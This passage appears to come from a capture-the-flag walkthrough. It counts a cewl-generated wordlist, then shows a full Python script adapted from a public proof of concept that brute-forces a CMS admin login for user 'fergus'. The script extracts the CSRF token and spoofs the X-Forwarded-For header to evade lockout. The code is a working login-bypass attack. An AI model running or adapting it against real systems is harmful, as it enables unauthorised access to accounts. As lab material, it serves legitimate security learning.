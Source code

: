 After I remove the first line with `vim` (`cewl` banner output), the list has 349 passwords:

```

root@kali# wc -l wordlist 
349 wordlist

```

#### Update Script

The POC script from Rastating proves the concept, but it isn’t set up to exploit. I’ll make a bunch of changes, having it load my wordlist as an arg from the command line, using `\r` to print status but on the same line so it doesn’t blast my terminal, removing the dummy passwords. My script looks like:

```

#!/usr/bin/env python3
import re
import requests
import sys

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'

with open(sys.argv[1], 'r') as f:
    wordlist = [x.strip() for x in f.readlines()]

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print(f'\r[*] Trying: {password:<90}'.format(p = password), end="", flush=True)

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print('\rSUCCESS: Password found!' + 50*" ")
            print(f'Use {username}:{password} to login.')
            print()
            break

```
